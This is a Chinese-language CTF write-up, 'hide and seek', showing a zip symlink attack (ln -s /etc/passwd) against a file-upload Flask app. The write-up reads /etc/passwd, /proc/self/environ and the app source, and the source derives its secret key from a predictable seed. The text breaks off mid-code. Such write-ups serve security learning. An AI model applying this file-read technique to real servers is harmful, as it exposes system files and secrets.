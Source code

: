 
## hide and seek
传个zip，会解压缩并且读取
尝试传个链接文件ln -s /etc/passwd test 并压缩上传
读到/etc/passwd

然后就是各种文件读取
在 /proc/self/environ读取到一个好东西

```
UWSGI_ORIGINAL_PROC_NAME=/usr/local/bin/uwsgiSUPERVISOR_GROUP_NAME=uwsgiHOSTNAME=323a960bcc1aSHLVL=0PYTHON_PIP_VERSION=18.1HOME=/rootGPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421DUWSGI_INI=/app/it_is_hard_t0_guess_the_path_but_y0u_find_it_5f9s5b5s9.iniNGINX_MAX_UPLOAD=0UWSGI_PROCESSES=16STATIC_URL=/staticUWSGI_CHEAPER=2NGINX_VERSION=1.13.12-1~stretchPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binNJS_VERSION=1.13.12.0.2.0-1~stretchLANG=C.UTF-8SUPERVISOR_ENABLED=1PYTHON_VERSION=3.6.6NGINX_WORKER_PROCESSES=autoSUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sockSUPERVISOR_PROCESS_NAME=uwsgiLISTEN_PORT=80STATIC_INDEX=0PWD=/app/hard_t0_guess_n9f5a95b5ku9fgSTATIC_PATH=/app/staticPYTHONPATH=/appUWSGI_RELOADS=0
```


然后直接读/app/it_is_hard_t0_guess_the_path_but_y0u_find_it_5f9s5b5s9.ini文件得到

```
[uwsgi] module = hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main callable=app
```

按部就班读取项目文件 /app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py
得到
```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
        return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
```